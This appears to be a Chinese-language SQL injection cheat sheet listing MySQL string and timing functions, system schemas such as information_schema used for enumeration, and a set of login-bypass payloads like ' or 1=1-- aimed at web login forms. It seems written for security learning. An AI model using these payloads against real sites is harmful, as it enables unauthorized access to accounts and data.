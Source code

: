 ## 常见字符串函数
在`MySQL`中, 常用来对字符串进行处理的函数有:

```php
mid()                   # 截取字符串
substr()
length()                # 返回字符串的长度
substring()						
left()                  # 从左侧开始取指定字符个数的字符串
concat()                # 没有分隔符的连接字符串
concat_ws()             # 含有分割符的连接字符串
group_concat()          # 连接一个组的字符串
ord()                   # 返回 ASCII 码
ascii()	
hex()                   # 将字符串转换为十六进制
unhex()                 # hex 的反向操作
md5()                   # 返回 MD5 值
round(x)                # 返回参数 x 接近的整数
floor(x)                # 返回不大于 x 的最大整数
rand()                  # 返回 0-1 之间的随机浮点数
load_file()             # 读取文件, 并返回文件内容作为一个字符串
sleep()                 # 睡眠时间为指定的秒数
if(true, t, f)          # if 判断
benchmark()             # 指定语句执行的次数
find_in_set()           # 返回字符串在字符串列表中的位置
```

## 重要的数据库
```php
information_schema                          # MySQL 系统表
mysql.innodb_table_stats                    # MySQL 默认存储引擎innoDB携带的表
mysql.innodb_index_stats
sys.schema_auto_increment_columns           # MySQL5.7 新增
sys.schema_table_statistics_with_buffer
```

## 重要的表

```php
schemata                # 数据库信息
schema_name

tables                  # 表信息
table_schema
table_name

columns                 # 字段信息
column_name
```

## 注入方式
例如: `http://www.test.com/sql.php?id=1`.
### 万能密码后台登陆
```sql
admin' --
admin' #
admin'/*
or '=' or
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
```